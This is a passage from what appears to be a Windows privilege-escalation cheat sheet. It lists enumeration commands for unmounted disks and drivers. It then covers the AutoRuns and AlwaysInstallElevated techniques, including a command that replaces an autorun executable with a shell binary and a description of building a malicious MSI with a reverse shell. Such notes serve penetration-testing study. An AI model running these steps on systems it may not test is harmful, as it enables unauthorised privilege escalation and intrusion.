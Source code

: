 ## Unmounted Disks

??? info "info"
    On most systems, drives are automatically mounted at boot time. Because of this, it's easy to forget about unmounted drives that could contain valuable information. We should always look for unmounted drives, and if they exist, check the mount permissions.

```powershell
C:\Cas> mountvol
```

## Device Drivers and Kernel Modules

### List of drivers and kernel modules

```powershell
C:\Cas> driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path
```

### Version of loaded driver
```powershell
C:\Cas> Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

## Binaries That AutoElevate (Registry)

### AutoRuns

??? info "info"
    Windows can be configured to run commands at startup, with elevated privileges. These “AutoRuns” are configured in the Registry. If you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges

```powershell
C:\Cas> copy /Y shell.exe "C:\Program Files\Autorun Program\program.exe"
```

### AlwaysInstallElevated

??? info "info"
    The catch is that two Registry settings must be enabled for this to work.  
    The “AlwaysInstallElevated” value must be set to 1 for both the local machine:  
    HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer  
    and the current user: HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer  
    If either of these are missing or disabled, the exploit will not work.
    MSI files are package files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated (i.e. admin) privileges. If this is the case, we can generate a malicious MSI file which contains a reverse shell.
